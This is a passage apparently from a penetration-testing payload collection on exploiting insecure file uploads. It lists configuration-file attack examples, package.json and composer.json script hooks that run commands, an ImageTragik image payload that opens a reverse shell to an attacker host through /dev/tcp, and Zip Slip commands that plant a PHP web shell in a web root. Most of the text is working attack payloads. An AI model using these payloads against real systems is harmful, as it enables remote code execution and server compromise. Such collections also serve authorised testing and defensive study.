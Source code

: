 Configuration files examples

* [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
* [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
* [httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf)
* [__init__.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
* [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)


Alternatively you may be able to upload a JSON file with a custom scripts, try to overwrite a dependency manager configuration file.

* package.json
```json
"scripts": {
    "prepare" : "/bin/touch /tmp/pwned.txt"
}

```
* composer.json
```json
"scripts": {
    "pre-command-run" : [
    "/bin/touch /tmp/pwned.txt"
    ]
}

```

## CVE - ImageMagick
If the backend is using ImageMagick to resize/convert user images, you can try to exploit well-known vulnerabilities such as ImageTragik.
* ImageTragik example: Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)
```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context

```
More payloads in the folder `Picture ImageMagick`

## CVE - FFMpeg
FFmpeg HLS vulnerability

## ZIP archive
When a ZIP/archive file is automatically decompressed after the upload
* Zip Slip: directory traversal to write a file somewhere else
```bash
python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15

ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt

```
